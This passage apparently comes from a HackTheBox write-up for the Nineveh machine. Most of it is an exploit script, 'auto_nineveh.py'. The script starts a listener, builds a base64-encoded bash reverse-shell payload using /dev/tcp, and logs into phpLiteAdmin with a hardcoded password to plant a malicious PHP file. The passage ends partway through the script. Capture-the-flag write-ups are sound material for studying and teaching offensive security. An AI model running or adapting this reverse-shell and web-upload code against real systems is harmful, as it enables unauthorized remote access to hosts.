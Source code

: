 ```py
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2002:15:23.png)

auto_nineveh.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Nineveh - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os
import urllib
import urllib3
import urllib.parse
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# b64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the payload
def createPayload(lhost,lport):
    print("[+] Let's creat the payload !! [+]")
    global payload
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    payload = str(b64e(payload))
    
# Let's create the phpLiteAdmin php file
def CreatePHP(rhost):
    print("[+] Let's create the malicious PHP File !! [+]")
    # Loging as admin
    url = "https://%s:443/db/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"password": "password123", "remember": "yes", "login": "Log In", "proc_login": "true"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
```